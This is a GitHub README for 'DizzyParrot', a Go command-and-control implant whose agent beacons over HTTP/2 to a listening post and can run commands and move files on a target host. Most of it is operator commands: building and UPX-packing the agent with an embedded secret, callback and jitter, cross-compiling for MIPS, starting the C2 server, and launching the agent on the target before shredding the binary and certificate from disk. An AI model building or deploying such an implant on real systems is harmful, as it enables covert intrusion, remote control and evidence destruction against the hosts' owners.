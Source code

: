 # DizzyParrot
A simple beaconing implant written in Go. DizzyParrot consist of an agent, listening post, and interactive shell. The agent communicates to the LP over HTTP/2 at a specified interval. An agent can be tasked using the interactive shell to pull and push files, and execute commands on the target host. 



## Getting Started

#### Install dependencies (Debian and Ubuntu)
```
apt update && apt -y upgrade && apt -y install build-essential postgresql screen vim git upx
```

#### Start Postgres and create user
```
# Command is provided after installing dependencies
pg_ctlcluster 11 main start

# Verify
pg_ctlcluster 11 main status

# Change to postgres user
su - postgres

# Create user
createuser --interactive --pwprompt
# Enter name of role to add: dizzy
# Enter password for new role: dizzy
# Enter it again: dizzy
# Shall the new role be a superuser? (y/n) y

# Exit from postgres user
exit
```

#### Install go
```
wget https://dl.google.com/go/go1.14.1.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.14.1.linux-amd64.tar.gz
rm -f go1.14.1.linux-amd64.tar.gz

echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
```

#### Clone the repo using git and get go dependencies 
```
# Clone repo
git clone https://github.com/af001/DizzyParrot.git

# Go dependencies 
go get gopkg.in/yaml.v2
go get golang.org/x/net/http2
go get github.com/lib/pq
go get github.com/c-bata/go-prompt
go get github.com/common-nighthawk/go-figure
go get github.com/jedib0t/go-pretty/table
```

#### Build LP and shell
```
cd server; go build server.go
cd shell; go build shell.go
```

#### Build agent 
```
# Build for host Linux
go build -ldflags "-s -w -X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# Cross-compile mips
GOOS=linux GOARCH=mips go build -ldflags "-s -w -X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# To compress binaries to a smaller size, use upx
upx --brute client
```

#### Start the LP
```
# Generate cert
cd server; mkdir cert
openssl req -newkey rsa:2048 -nodes -keyout cert/server.key -x509 -days 365 -out cert/server.crt

# Start the LP
./server -c cert/config.yml

# To use a screen session
screen -S DIZZY_LP
./server -c config.yml

# To background screen
ctrl+a d

# To interact with screen session
screen -ls
screen -x DIZZY_LP
```

#### Start the shell
```
cd shell
./shell -c config.yml

# To use a screen session
screen -S DIZZY_SHELL
./shell -c config.yml

# To background screen
ctrl+a d

# To interact with screen session
screen -ls
screen -x DIZZY_SHELL
```

#### Execute agent on target host

If not using real certs, the client requieres the server certificate upon execution. After execution, the binary and certificate can be removed from disk. 

```
# Start agent
./client -c server.crt &

# To run in memory 
shred -fuz client server.crt
```

#### Validate Postgres database
```
# Login to shell
sudo -u postgres psql

# View tables
\dt
```
#### Screenshots
